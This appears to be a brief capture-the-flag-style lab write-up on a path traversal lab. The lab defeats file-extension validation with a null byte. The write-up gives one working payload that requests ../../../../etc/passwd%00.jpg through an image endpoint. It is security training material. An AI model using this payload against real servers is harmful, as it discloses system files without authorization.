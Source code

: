 Title: File path traversal, validation of file extension with null byte bypass
Level: Practitioner
Desc: This lab contains a path traversal vulnerability in the display of product images.
The application validates that the supplied filename ends with the expected file extension.
To solve the lab, retrieve the contents of the /etc/passwd file. 

So, the null byte `%00` has that feature, that everything after it could be not relevant, interesting.

payload: `/image?filename=../../../../etc/passwd%00.jpg`
![image](https://github.com/user-attachments/assets/ecbc620f-4343-4a14-9e6a-4eebbb925011)

